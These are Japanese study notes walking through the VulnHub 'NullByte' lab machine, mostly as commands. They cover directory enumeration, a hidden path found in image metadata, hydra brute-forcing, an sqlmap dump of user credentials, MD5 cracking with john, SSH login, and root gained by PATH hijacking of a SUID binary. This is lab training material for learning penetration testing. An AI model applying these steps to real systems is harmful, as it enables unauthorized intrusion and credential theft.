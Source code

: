 ## NullByte  760~
### ポートスキャンまでは同じ
- 80,111,777,4474

### Webサイトを見る
- functionKeyの12を押すとソースコードが見れるので、チェックする。ここには画像であるmain.gifぐらいしかないが、、

### dirbで使う暗号ファイルを見てみる
- `wc /usr/share/dirb/wordlists/*.txt`
- ひとつ具体的に見てみる
- `head /usr/share/dirb/wordlists/small.txt`

### dirb
- `dirb http://$IP /usr/share/dirb/wordlists/small.txt`
- phpMyAdmin,javascript,uploadsディレクトリが見つかる、今はどうしようもないので後で使う
### 怪しい画像ファイルを調査する
- `wget http://$IP:80/main.gif`
- ファイルを調べる
  - `strings main.gif` または `exiftool main.gif`の両方あるが、後者の方が有能
  - 謎のコメントが得られる`kzMb5nVYJw`

### Webサイト 
- さっきのを最後につけてサイトを見る
- Hydraで攻略
  - `hydra -l test -P ~/vulnhub/SecLists-master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt $IP 
http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"` 
  - ここでは１箇所しか入力するところがないので、ユーザ名は適当なtestという名前を入れている
- パスワードがわかる `elite`
- webサイトにパスワードがあるので、入力する

### SQLMap(攻略2)
- search for usernamesページ
```html
<p>Search for usernams: </p>
<hr>
<form action="420search.php" method="get">
Enter username:<br>
<input type="text" name="usrtosearch">
</form>
```
- 空のまま`Enter`を押すと、とりあえずuser名がわかる
  - `ramses` `isis` 
 
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C id,position,user,pass --dump`
- ramsesのpassをコピーする

### Base64でデコードする
- `echo -n "ペースト=" | base64 -d`
  - ペーストした最後に`=`イコールをつける、理由は6の座学にあり
  - うまく変換できていれば、hash.txtに保存する
- `echo -n "ペースト=" | base64 -d > hash.txt`  

### パスワードの解析
- `sudo john --format=raw-md5 hash.txt`
  - hash.txtに書き込んだのはmd5という形式の暗号化である

### ssh
- `ssh ramses@192.168.56.108 -p 777`
  - ポート番号 
- フォルダを探索する
- `cat .bash_hitory`
- `cd /var/www/backup`
- 謎のコマンドが実行されている `./procwatch`
- これはどこかで見たことのあるコマンド?これは完全にバグで、これを利用する
- `ls -al` SUIDファイルであることがわかる
- `echo $PATH`
  - PATHは左から順に読み込まれるので、/tmpディレクトリをはじめに置いて、そこに偽のpsコマンド(ファイル)をおく 
- psコマンドをどこからでも呼べるためにパスを通す
  - `export PATH=/tmp:$PATH`
- `echo $PATH`
- paファイルにshを実行できるように書き込む
  - `echo "/bin/sh" > /tmp/ps`
- `chmod 777 /tmp/ps`
- ./procwatchを実行すると、裏でpsファイルが呼ばれて、そこにはshが書かれているので、shが実際は実行される
  - `./procwatch` 
### 権限の昇格
- `cd /root`
- `cat proof.txt`

